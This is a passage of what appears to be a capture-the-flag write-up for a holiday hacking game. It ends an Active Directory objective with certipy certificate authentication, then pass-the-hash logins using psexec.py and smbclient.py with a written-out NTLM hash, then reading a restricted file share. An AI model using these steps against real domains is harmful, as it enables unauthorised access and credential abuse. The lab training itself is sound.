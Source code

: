 ```

```certipy auth -pfx administrator_dc.pfx -dc-ip 10.0.0.53```

```certipy auth -pfx wombleycube_npdc01.pfx -dc-ip 10.0.0.53```

```psexec.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23```
psexec shows the ‘FileShare’ is not writable. 


```
smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23

# cat todo.txt
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit

# cd super_secret_research
# cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```



### Images

I stole wombley's secret cookies, if you are interested in cooking yourself
a Christmas meal: 

![Secret recipe](../img/objectives/o19/cookies.png)

#### The method is base64 encoding and decoding!

!!! success "Answer"
    The secret file is: InstructionsForEnteringSatelliteGroundStation.txt
    AND cookies.pdf

## Response

!!! quote "Ribb Bonbowford "
    Wow, nice work. I'm impressed! </br>

    This is all starting to feel like more than just a coincidence though. </br>Everything Alabaster's been setting up lately with the help of ChatNPT </br>contains all these vulnerabilities. It almost feels deliberate, if you ask me.</br>

    Now obviously an LLM AI like ChatNPT cannot have deliberate motivations </br>itself. It's just a machine. But I wonder who could have built it and who is controlling it?</br>

    On top of that, we apparently have a satellite ground station on Geese </br>Islands. I wonder where that thing would even be located.</br>

    Well, I guess it's probably somewhere on Space Island, but I've not been there yet.</br>
```